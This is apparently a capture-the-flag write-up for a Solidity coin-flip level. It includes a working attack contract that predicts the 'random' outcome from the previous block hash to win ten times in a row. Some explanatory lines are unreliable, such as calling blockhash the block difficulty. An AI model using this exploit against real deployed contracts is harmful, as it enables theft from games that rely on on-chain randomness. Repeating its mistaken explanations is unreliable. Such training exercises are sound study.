

# Challenge 3



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Challenge
---
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

1. `blockhash()` - difficulty of the block (part of the transaction.)
2. `block.number` - current block number.

Solution 
---
1. So we are checking if the blockhash(block difficulty) is not same as the previous one then it will check if the blockvalue / FACTOR is 1 then it will solve the challenge and check if the all the math operations are working correctly or not so we will implement SafeMath Library by openzeppelin.

2. We Will get instance address and create new contract and check if the side is flipped or  not here's the code for challenge. Remember we need to win 10 times so you have to make flip 10 times true.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract CoinFlipAttack {
    CoinFlip coinFlipAddress;
     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
     using SafeMath for uint256;

    constructor(address _addr) {
        coinFlipAddress = CoinFlip(_addr);
    }

    function solveFlip() external returns(bool) {
    uint256 blockValue = uint256(blockhash(SafeMath.sub(block.number,1)));
          
    uint256 coinFlip = SafeMath.div(blockValue,FACTOR);
    bool  side = coinFlip == 1 ? true : false;

    require(side == true);
    bool result = coinFlipAddress.flip(side);

    return result;
    }
}
```

For Checking How many times you won get the instance address and paste in the 
Below deploy button you will see at address paste it and click you will see your instance contract state variables and function those are public.
another way to check using abi
```js
await contract.consecutiveWins()
```
 Click on the consecutiveWins see how many times you won if it is 10 then submit the instance, you will see the cleared level in the console.